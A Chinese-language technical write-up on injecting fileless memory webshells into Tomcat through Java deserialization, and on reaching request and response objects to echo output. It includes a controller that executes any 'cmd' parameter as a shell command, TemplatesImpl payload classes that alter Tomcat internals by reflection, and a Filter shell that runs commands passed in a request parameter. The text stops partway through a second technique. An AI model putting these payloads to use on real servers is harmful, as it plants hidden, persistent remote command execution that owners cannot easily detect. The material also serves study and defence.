继续Tomcat内存马的问题，对于jsp文件而言限制条件蛮多的，比如需要能解析jsp，或者需要一个文件上传的口子去传入jsp文件到webapp目录下，并且真实情况下往往是需要通过反序列化打入内存马的

因为Tomcat编码JSP文件为java文件时，由于 request 和 response 是 jsp 的内置对象，所以在回显问题上不用考虑

但是在反序列化的时候我们需要写成java文件的内存马打进去，所以如何获取到request和response对象就成了一个问题

# 半通用回显 Tomcat 打内存马

Kingkk 师傅提出的 “Tomcat中一种半通用回显方法”

## 如何拿到request/response 对象

说到回显问题，第一个想到的就是往响应中写入内容，那么就需要用到我们的response对象，所以我们需要找到一个能够利用的response对象

但是同时我们又需要一个request对象，这样才能反射获取StandardContext

Kingkk师傅这里给出了寻找response对象的思路：

1. 通过翻阅函数调用栈寻找存储 response 的类
2. 最好是个静态变量，这样不需要获取对应的实例，毕竟获取对象还是挺麻烦的
3. 使用 ThreadLocal 保存的变量，在获取的时候更加方便，不会有什么错误
4. 修复原有输出，通过分析源码找到问题所在

参考Kingkk师傅的文章：https://xz.aliyun.com/news/6944#toc-0

我们用Spring Boot起个项目，然后写一个控制器

```java
package com.example.SpringBootTest.controller;


import jakarta.servlet.http.HttpServletResponse;
import org.springframework.web.bind.annotation.RequestMapping;
import org.springframework.web.bind.annotation.RestController;

@RestController
public class Testcontroller {  

   @RequestMapping("/test")
   public String test(String input, HttpServletResponse response) throws Exception {
      System.out.println(input);
      return input;
   }
}
```

打上断点后顺着堆栈一直往下，找到HTTP请求的入口那里可以发现request和response几乎就是一路传递的，并且在内存中都是同一个变量（变量toString最后的数字就是当前变量的部分哈希）



所以只要我们能获取到这些堆栈中，任何一个类的response实例即可

而且记录的变量不应该是一个全局变量，而应该是一个ThreadLocal，这样才能获取到当前线程的请求信息。而且最好是一个static静态变量，否则我们还需要去获取那个变量所在的实例。

顺着这个思路，刚好在`org.apache.catalina.core.ApplicationFilterChain`这个类中，找到了一个符合要求的变量。



但是由于`ApplicationDispatcher.WRAP_SAME_OBJECT`属性默认是false，所以这里的静态代码块在初始化的时候已经把lastServicedResponse的值设置为null，然后后面在`internalDoFilter`方法里面还有一个将当前的resquest和response对象赋值给lastServicedRequest和lastServicedResponse对象的操作，但是还是需要ApplicationDispatcher.WRAP_SAME_OBJECT 的值为true。



但是这里的if默认是false，不过没关系，我们可以用反射去修改

这样，整体的思路大概就是

1、反射修改`ApplicationDispatcher.WRAP_SAME_OBJECT`，让代码逻辑走到if条件里面

2、初始化`lastServicedRequest`和`lastServicedResponse`两个变量，默认为null

3、从`lastServicedResponse`中获取当前请求response，并且回显内容。

**通过反射修改控制变量，来改变Tomcat处理请求时的流程，使得Tomcat处理请求时便将request, response对象存入ThreadLocal中，最后在反序列化的时候便可以利用ThreadLocal来取出response**。

所以我们的处理逻辑为：

1. 使用反射把ApplicationDispathcer.WRAP_SAME_OBJECT变量修改为true
2. 使用反射初始化ApplicationDispathcer中的lastServicedResponse变量为ThreadLocal
3. 使用反射从lastServicedResponse变量中获取tomcat response变量
4. 使用反射将usingWriter属性修改为false修复输出报错

## 编写POC

由于WRAP_SAME_OBJECT、lastServicedRequest、lastServicedResponse为static final变量，而且后两者为私有变量，因此需要modifiersField的处理将final属性取消掉。（当然也可以直接用Unsafe直接操作内存修改值）

还需要注意的是：在使用response的`getWriter`函数时，usingWriter 变量就会被设置为true。如果在一次请求中`usingWriter`变为了true那么在这次请求之后的结果输出时就会报错

这时候有两种解决办法：

- 在调用完一次`getWriter`反射修改usingWriter的值为false

```java
Field responseField = ResponseFacade.class.getDeclaredField("response");//获取response字段
responseField.setAccessible(true);//将变量设置为可访问
Response response = (Response) responseField.get(responseFacade);//获取变量
Field usingWriter = Response.class.getDeclaredField("usingWriter");//获取usingWriter字段
usingWriter.setAccessible(true);//将变量设置为可访问
usingWriter.set((Object) response, Boolean.FALSE);//设置usingWriter为false
```

- 使用`getOutputStream`代替

```java
// 方法一：使用 outputStream.write() 方法输出
responseFacade.getOutputStream().write(res.getBytes(StandardCharsets.UTF_8));
responseFacade.flushBuffer();
```

写个控制器代码测试一下

```java
package com.example.SpringBootTest.controller;

import jakarta.servlet.ServletRequest;
import jakarta.servlet.ServletResponse;
import org.apache.catalina.connector.Response;
import org.apache.catalina.connector.ResponseFacade;
import org.springframework.web.bind.annotation.RequestMapping;
import org.springframework.web.bind.annotation.ResponseBody;
import org.springframework.web.bind.annotation.RestController;

import java.io.InputStream;
import java.io.PrintWriter;
import java.lang.reflect.Field;
import java.lang.reflect.Modifier;
import java.util.Scanner;

@RestController
public class EvilController {

    @RequestMapping("/evil")
    @ResponseBody
    public String IndexController(String cmd) throws Exception{
        try{
            //利用modifiers反射修改WRAP_SAME_OBJECT_FIELD属性为true
            Field WRAP_SAME_OBJECT_FIELD = Class.forName("org.apache.catalina.core.ApplicationDispatcher").getDeclaredField("WRAP_SAME_OBJECT");
            Field modifiersField = Field.class.getDeclaredField("modifiers");
            modifiersField.setAccessible(true);
            modifiersField.setInt(WRAP_SAME_OBJECT_FIELD,WRAP_SAME_OBJECT_FIELD.getModifiers() & ~Modifier.FINAL);  //取消FINAL属性
            WRAP_SAME_OBJECT_FIELD.setAccessible(true);
            WRAP_SAME_OBJECT_FIELD.setBoolean(null,true);//将变量设置为true

            //初始化ApplicationDispathcer中的lastServicedResponse变量为ThreadLocal
            Field lastServicedRequestField =  Class.forName("org.apache.catalina.core.ApplicationFilterChain").getDeclaredField("lastServicedRequest");
            Field lastServicedResponseField =  Class.forName("org.apache.catalina.core.ApplicationFilterChain").getDeclaredField("lastServicedResponse");
            modifiersField.setInt(lastServicedRequestField,lastServicedRequestField.getModifiers() & ~Modifier.FINAL);
            modifiersField.setInt(lastServicedResponseField,lastServicedResponseField.getModifiers() & ~Modifier.FINAL);
            lastServicedRequestField.setAccessible(true);
            lastServicedResponseField.setAccessible(true);
            ThreadLocal<ServletRequest> lastServicedRequest = (ThreadLocal<ServletRequest>) lastServicedRequestField.get(null);
            ThreadLocal<ServletResponse> lastServicedResponse = (ThreadLocal<ServletResponse>) lastServicedResponseField.get(null);

            if (lastServicedRequest == null || lastServicedResponse == null) {
                lastServicedRequestField.set(null, new ThreadLocal<>());//设置ThreadLocal对象
                lastServicedResponseField.set(null, new ThreadLocal<>());//设置ThreadLocal对象
            }else if (cmd != null){

                ServletResponse servletResponse = lastServicedResponse.get();
                boolean isLinux = true;
                String osTyp = System.getProperty("os.name");
                if (osTyp != null && osTyp.toLowerCase().contains("win")) {
                    isLinux = false;
                }
                String[] cmdArray = isLinux ? new String[]{"sh", "-c", cmd} : new String[]{"cmd.exe", "/c", cmd}; //根据操作系统选择shell
                //执行命令并获取命令输出
                InputStream in = Runtime.getRuntime().exec(cmdArray).getInputStream();
                Scanner s = new Scanner(in).useDelimiter("\\a");  //使用 Scanner 读取 InputStream 的内容
                String output = s.hasNext() ? s.next() : "";  //如果有内容就读取，否则为空字符串
                // 方法一：使用 outputStream.write() 方法输出
                // responseFacade.getOutputStream().write(res.getBytes(StandardCharsets.UTF_8));
                // responseFacade.flushBuffer();
                // 方法二：使用 writer.writeA() 方法输出
                PrintWriter writer = servletResponse.getWriter();    // 获取writer对象

                Field responseField = ResponseFacade.class.getDeclaredField("response");//获取response字段
                responseField.setAccessible(true);//将变量设置为可访问
                Response response = (Response) responseField.get(servletResponse);//获取变量
                Field usingWriter = Response.class.getDeclaredField("usingWriter");//获取usingWriter字段
                usingWriter.setAccessible(true);//将变量设置为可访问
                usingWriter.set((Object) response, Boolean.FALSE);//设置usingWriter为false

                writer.write(output);
                writer.flush();
            }
        } catch (Exception e) {
            throw new RuntimeException(e);
        }
        return "Success";
    }
}
```



## 反序列化打内存马POC构造

前面文章中说到的内存马仅仅是通过在Servlet中去进行动态添加Filter，而实际中还是需要借助反序列化点来打入内存马

参考师傅的文章：

https://www.cnblogs.com/nice0e3/p/14891711.html

https://threedr3am.github.io/2020/03/20/%E5%9F%BA%E4%BA%8Etomcat%E7%9A%84%E5%86%85%E5%AD%98Webshell%E6%97%A0%E6%96%87%E4%BB%B6%E6%94%BB%E5%87%BB%E6%8A%80%E6%9C%AF/

首先创建一个用于类加载打入恶意代码的类，在其静态代码块中`反射修改ApplicationDispatcher.WRAP_SAME_OBJECT为true，并且对lastServicedRequest和lastServicedResponse这两个ThreadLocal进行初始化`

```java
package SerializeChains.bullet.MemShell.Tomcat_Half_Echo;

import com.sun.org.apache.xalan.internal.xsltc.DOM;
import com.sun.org.apache.xalan.internal.xsltc.TransletException;
import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;
import com.sun.org.apache.xml.internal.dtm.DTMAxisIterator;
import com.sun.org.apache.xml.internal.serializer.SerializationHandler;

import java.lang.reflect.Field;
import java.lang.reflect.Modifier;

public class TomcatEchoInject extends AbstractTranslet {
    static{
        try{

            //修改WRAP_SAME_OBJECT为true
            Field wrap_same_object = Class.forName("org.apache.catalina.core.ApplicationDispatcher").getDeclaredField("WRAP_SAME_OBJECT");
            Field modifiersField = Field.class.getDeclaredField("modifiers");
            modifiersField.setAccessible(true);
            modifiersField.setInt(wrap_same_object,wrap_same_object.getModifiers() & ~Modifier.FINAL);
            wrap_same_object.setAccessible(true);
            if (!wrap_same_object.getBoolean(null)){
                wrap_same_object.set(null,true);
            }

            //初始化lastServicedRequest
            Field lastServicedRequest = Class.forName("org.apache.catalina.core.ApplicationFilterChain").getDeclaredField("lastServicedRequest");
            modifiersField = Field.class.getDeclaredField("modifiers");
            modifiersField.setAccessible(true);
            modifiersField.setInt(lastServicedRequest,lastServicedRequest.getModifiers() & ~Modifier.FINAL);
            lastServicedRequest.setAccessible(true);
            if (lastServicedRequest.get(null) == null){
                lastServicedRequest.set(null,new ThreadLocal());
            }

            //初始化lastServicedResponse
            Field lastServicedResponse = Class.forName("org.apache.catalina.core.ApplicationFilterChain").getDeclaredField("lastServicedRequest");
            modifiersField = Field.class.getDeclaredField("modifiers");
            modifiersField.setAccessible(true);
            modifiersField.setInt(lastServicedResponse,lastServicedResponse.getModifiers() & ~Modifier.FINAL);
            lastServicedResponse.setAccessible(true);
            if (lastServicedResponse.get(null) == null){
                lastServicedResponse.set(null,new ThreadLocal());
            }
        } catch (NoSuchFieldException e) {
            throw new RuntimeException(e);
        } catch (ClassNotFoundException e) {
            throw new RuntimeException(e);
        } catch (IllegalAccessException e) {
            throw new RuntimeException(e);
        }
    }
    @Override
    public void transform(DOM document, SerializationHandler[] handlers) throws TransletException {

    }

    @Override
    public void transform(DOM document, DTMAxisIterator iterator, SerializationHandler handler) throws TransletException {

    }
}
```

在使用步骤一生成的序列化数据进行反序列化攻击后，我们就能通过下面这段代码获取到request和response对象了

```java
import com.sun.org.apache.xalan.internal.xsltc.DOM;
import com.sun.org.apache.xalan.internal.xsltc.TransletException;
import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;
import com.sun.org.apache.xml.internal.dtm.DTMAxisIterator;
import com.sun.org.apache.xml.internal.serializer.SerializationHandler;
import java.io.IOException;
import javax.servlet.Filter;
import javax.servlet.FilterChain;
import javax.servlet.FilterConfig;
import javax.servlet.ServletException;
import javax.servlet.ServletRequest;
import javax.servlet.ServletResponse;

/**
 * @author threedr3am
 */
public class TomcatShellInject extends AbstractTranslet implements Filter {

    static {
        try {
            /*shell注入，前提需要能拿到request、response等*/
            java.lang.reflect.Field f = org.apache.catalina.core.ApplicationFilterChain.class
                .getDeclaredField("lastServicedRequest");
            f.setAccessible(true);
            ThreadLocal t = (ThreadLocal) f.get(null);
            ServletRequest servletRequest = null;
            //不为空则意味着第一次反序列化的准备工作已成功
            if (t != null && t.get() != null) {
                servletRequest = (ServletRequest) t.get();
            }
            if (servletRequest != null) {
                javax.servlet.ServletContext servletContext = servletRequest.getServletContext();
                org.apache.catalina.core.StandardContext standardContext = null;
                //判断是否已有该名字的filter，有则不再添加
                if (servletContext.getFilterRegistration("threedr3am") == null) {
                    //遍历出标准上下文对象
                    for (; standardContext == null; ) {
                        java.lang.reflect.Field contextField = servletContext.getClass().getDeclaredField("context");
                        contextField.setAccessible(true);
                        Object o = contextField.get(servletContext);
                        if (o instanceof javax.servlet.ServletContext) {
                            servletContext = (javax.servlet.ServletContext) o;
                        } else if (o instanceof org.apache.catalina.core.StandardContext) {
                            standardContext = (org.apache.catalina.core.StandardContext) o;
                        }
                    }
                    if (standardContext != null) {
                        //修改状态，要不然添加不了
                        java.lang.reflect.Field stateField = org.apache.catalina.util.LifecycleBase.class
                            .getDeclaredField("state");
                        stateField.setAccessible(true);
                        stateField.set(standardContext, org.apache.catalina.LifecycleState.STARTING_PREP);
                        //创建一个自定义的Filter马
                        Filter threedr3am = new TomcatShellInject();
                        //添加filter马
                        javax.servlet.FilterRegistration.Dynamic filterRegistration = servletContext
                            .addFilter("threedr3am", threedr3am);
                        filterRegistration.setInitParameter("encoding", "utf-8");
                        filterRegistration.setAsyncSupported(false);
                        filterRegistration
                            .addMappingForUrlPatterns(java.util.EnumSet.of(javax.servlet.DispatcherType.REQUEST), false,
                                new String[]{"/*"});
                        //状态恢复，要不然服务不可用
                        if (stateField != null) {
                            stateField.set(standardContext, org.apache.catalina.LifecycleState.STARTED);
                        }

                        if (standardContext != null) {
                            //生效filter
                            java.lang.reflect.Method filterStartMethod = org.apache.catalina.core.StandardContext.class
                                .getMethod("filterStart");
                            filterStartMethod.setAccessible(true);
                            filterStartMethod.invoke(standardContext, null);

                            //把filter插到第一位
                            org.apache.tomcat.util.descriptor.web.FilterMap[] filterMaps = standardContext
                                .findFilterMaps();
                            for (int i = 0; i < filterMaps.length; i++) {
                                if (filterMaps[i].getFilterName().equalsIgnoreCase("threedr3am")) {
                                    org.apache.tomcat.util.descriptor.web.FilterMap filterMap = filterMaps[i];
                                    filterMaps[i] = filterMaps[0];
                                    filterMaps[0] = filterMap;
                                    break;
                                }
                            }
                        }
                    }
                }
            }
        } catch (Exception e) {
            e.printStackTrace();
        }
    }

    @Override
    public void transform(DOM document, SerializationHandler[] handlers) throws TransletException {

    }

    @Override
    public void transform(DOM document, DTMAxisIterator iterator, SerializationHandler handler)
        throws TransletException {

    }

    @Override
    public void init(FilterConfig filterConfig) throws ServletException {

    }

    @Override
    public void doFilter(ServletRequest servletRequest, ServletResponse servletResponse,
        FilterChain filterChain) throws IOException, ServletException {
        System.out.println(
            "TomcatShellInject doFilter.....................................................................");
        String cmd;
        if ((cmd = servletRequest.getParameter("threedr3am")) != null) {
            Process process = Runtime.getRuntime().exec(cmd);
            java.io.BufferedReader bufferedReader = new java.io.BufferedReader(
                new java.io.InputStreamReader(process.getInputStream()));
            StringBuilder stringBuilder = new StringBuilder();
            String line;
            while ((line = bufferedReader.readLine()) != null) {
                stringBuilder.append(line + '\n');
            }
            servletResponse.getOutputStream().write(stringBuilder.toString().getBytes());
            servletResponse.getOutputStream().flush();
            servletResponse.getOutputStream().close();
            return;
        }
        filterChain.doFilter(servletRequest, servletResponse);
    }

    @Override
    public void destroy() {

    }
}
```

分别把这两个类字节码打入，应该就可以了。不过我还没做测试，中间师傅修改了一下ysoserial中的Gadgets.createTemplatesImpl方法，文章里就不写了，师傅们自行查看：https://xz.aliyun.com/news/6984

## 版本限制 && 使用限制

需要注意的是， `WRAP_SAME_OBJECT` 字段只存在于 **Tomcat 9.x 及更早版本**。而modifiers是final字段，如果是高版本jdk的话就只能换成Unsafe去做

还需要一点，这里是从ApplicationFilterChain获取回显Response，但例如Shiro反序列化中，Shiro自己实现了一个filter

而rememberMe功能就是ShiroFilter的一个模块，这样的话在这部分逻辑中执行的代码，还没进入到cache request的操作中，此时的cache内容就是空，从而也就获取不到我们想要的response。

# 通过全局存储 Response回显

**上面通过ThreadLocal获取response的方式实际上是通过反射修改属性改变了Tomcat处理的部分流程，但是限制也显而易见，所以这次的方法不再寻求改变代码流程，而是找找有没有Tomcat全局存储的request或response**

还是启动Spring Boot项目

## 代码分析



在`org.apache.coyote.http11.Http11Processo`类中，该类继承了 AbstractProcessor。



跟进这里的request和response



发现是其父类AbstractProcessor的final受保护属性，也就是说其在赋值之后，对于对象的引用是不会改变的，**那么我们只要能够获取到这个Http11Processor就肯定可以拿到Request和Response**。

但是这里的request和response不是静态变量，需要从对象中获取而不能直接从类中，所以还得找找哪里存储了Http11Processor对象或者Http11Processor的request、response的变量

往上翻看到在org.apache.coyote.AbstractProtocol内部类ConnectionHandler的register方法中有对Http11Processor对象的调用



并且发现该方法中rp字段为从Http11Processor对象中获取到的RequestInfo对象，并且RequestInfo对象里有req字段Request对象，Request对象里有Response对象



获取完RequestInfo对象后调用了`rp.setGlobalProcessor(global)`方法，我们跟进看看



将RequestInfo对象注册到global中


而这个global是ConnectionHandler类的RequestGroupInfo类型字段



所以只要我们能获取到global对象，就能获取到里面的response对象了

```java
AbstractProtocol$ConnectoinHandler --> global --> RequestInfo --> req --> response
```

但是到这里还没结束，因为global也不是一个静态属性，所以还得回溯一下存储AbstractProtocol类或AbstractProtocol子类。

在调用栈中存在CoyoteAdapter类



这个类的connector对象中的protocolHandler是一个Http11NioProtocol对象，其中的handler就是AbstractProtocol$ConnectoinHandler。

```java
connector --> protocolHandler --> handler --> AbstractProtocol$ConnectoinHandler --> global-->RequestInfo --> req --> response
```

然后就是如何获取connector对象，Tomcat启动过程中会创建connector对象，并通过`addConnector`方法存放在connectors中



跟进这里的addConnector方法会来到StandardService#addConnector方法

